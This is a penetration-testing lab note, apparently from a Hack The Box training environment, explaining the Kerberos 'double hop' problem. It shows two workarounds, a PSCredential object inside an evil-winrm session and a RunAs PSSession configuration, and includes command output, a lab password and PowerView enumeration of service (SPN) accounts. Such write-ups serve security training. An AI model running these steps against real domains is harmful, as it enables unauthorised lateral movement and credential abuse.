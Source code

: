 ```yaml
---
title: Kerberos "Double Hop" Problem
draft: false
tags:
  - kerberos
  - kerberoasting
  - pscredential
---
```

Kerberos Double Hop problem arises when attacker attempts to use Kerberos authentication across two or more hops. 

Let's say we have three hosts: Attack Host -> DEV01 -> DC01

Using credentials and evil-winrm, we managed to authenticate to DEV01.

Our credentials are not stored in memory for winrm therefore we will not be present on the system to authenticate to other resource on behalf of our user. 

This happens because user's kerberos TGT ticket is not sent to the remote session so user has no way to prove their identity. 

If *unconstrained delegation* is enabled on a server, it is likely we won't face the "Double Hop" problem.

In this case, when a user sends their TGS to access the target server, TGT ticket is sent along with the request. 

## Workarounds

- "nested" `Invoke-Command` to send creds after creating PSCredential object with every request. 

Here, we will learn about two methods:

- `evil-winrm` session
- GUI access to a Windows host

## M1: PSCredential Object

We can connect to remote host and set up a PSCredential object to pass our credentials again.

Below, we can see that command `get-domainuser -spn` is showing a error since we cannot pass our authentication on to the DC to query for the SPN accounts:

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> import-module .\PowerView.ps1

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK

*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
```

If we check with `klist`, we only have a cached Kerberos ticket for our current server:

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x57f8a

Cached Tickets: (1)

#0> Client: backupadm @ INLANEFREIGHT.LOCAL
    Server: academy-aen-ms0$ @
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0xa10000 -> renewable pre_authent name_canonicalize
    Start Time: 6/28/2022 7:31:53 (local)
    End Time:   6/28/2022 7:46:53 (local)
    Renew Time: 7/5/2022 7:31:18 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x4 -> S4U
    Kdc Called: DC01.INLANEFREIGHT.LOCAL
```

### SetUp PSCredential

Let's set up PSCredential object and try above command again.

First we will set up our authentication:

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK

*Evil-WinRM* PS C:\Users\backupadm\Documents>  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```

Now let's try querying SPN account again using PowerView. We can see that it successfully works since we passed our credentials along with the command:

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
```

## M2 Register PSSession Configuration

Above we have seen how to overcome "Double Hop" using `evil-winrm` and PSCredential object. 

What if we are on a domain joined host and can connect remotely to another using WinRM? Or we are from a Windows attack host and we are connecting to a target via WinRM using `Enter-PSSession cmdlet`?

Let's first set up a WinRM session on the remote host:

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm
```

In order to interact with the DC from this remote host, we should register a new session configuration using `Register-PSSessionsConfiguration`:

```powershell-session
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm

 WARNING: When RunAs is enabled in a Windows PowerShell session configuration, the Windows security model cannot enforce
 a security boundary between different user sessions that are created by using this endpoint. Verify that the Windows
PowerShell runspace configuration is restricted to only the necessary set of cmdlets and capabilities.
WARNING: Register-PSSessionConfiguration may need to restart the WinRM service if a configuration using this name has
recently been unregistered, certain system data structures may still be cached. In that case, a restart of WinRM may be
 required.
All WinRM sessions connected to Windows PowerShell session configurations, such as Microsoft.PowerShell and session
configurations that are created with the Register-PSSessionConfiguration cmdlet, are disconnected.

   WSManConfig: Microsoft.WSMan.Management\WSMan::localhost\Plugin

Type            Keys                                Name
----            ----                                ----
Container       {Name=backupadmsess}                backupadmsess
```

Once above is done, let's restart WinRM service by `Restart-Service WinRM`.

Now, let's start a new PSSession using the named registered session we set up previously. Now double hop problem is eliminated:

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
[DEV01]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x2239ba

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
       Start Time: 6/28/2022 13:24:37 (local)
       End Time:   6/28/2022 23:24:37 (local)
       Renew Time: 7/5/2022 13:24:37 (local)
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called: DC01
```



